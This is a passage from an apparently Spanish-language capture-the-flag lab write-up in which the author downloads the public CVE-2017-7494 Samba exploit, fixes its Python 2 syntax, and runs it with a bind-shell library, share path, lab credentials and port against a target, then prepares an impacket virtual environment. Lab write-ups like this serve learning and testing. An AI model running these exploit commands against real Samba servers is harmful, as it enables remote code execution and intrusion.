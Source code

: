 ```

git clone "https://github.com/opsxcq/exploit-CVE-2017-7494.git"
 
```
Desde github descargo el exploit, pero al ejecutarlo me da error. Primero me daba error el archivo de python, porque era para python2 y la versión que uso es python3.

```

./exploit.py -t <IP-target> -e libbindshell-samba.so -s nebula_share -r /nebula_share/libbindshell-samba.so
  File "/home/kali/Desktop/Nebula.io/exploit-CVE-2017-7494/./exploit.py", line 39
    except Exception, e:
           ^^^^^^^^^^^^
SyntaxError: multiple exception types must be parenthesized

```
Después de corregir el archivo exploit.ty: en líneas donde esta puesto "except Exepcion, e:" quito la coma y pongo "as". 
    sys.stdout.write(str(data))
    except Exception as e:
        print("[-] Exception "+str(e))

```

./exploit.py -t <IP-target>  -e libbindshell-samba.so  -s nebula_share -r /nebula_share/libbindshell.so -u bluffer -p w.v2rLTM7 -P 44544
[*] Starting the exploit
[!] Error    

```
Al ejecutar de nuevo me da otro error, porque para utilizar este exploit tengo que activar el entorno virtual. Voy a realizar todas configuraciones necesarias.

```
pip3 install -r requirements.txt
error: externally-managed-environment

```
Compruebo si tengo repositorio y herramientas para entorno virtual.

```
pip3 show impacket
Name: impacket
Version: 0.12.0

```
Actualizo el repositorio.

```
python3 -m venv impacket-env

pip install git+https://github.com/fortra/impacket.git
Collecting git+https://github.com/fortra/impacket.git

pip show impacket
Name: impacket
Version: 0.13.0.dev0+20250404.133223.00ced47

python3 -m impacket.examples.smbclient -h

```
Activo el entorno virtual.
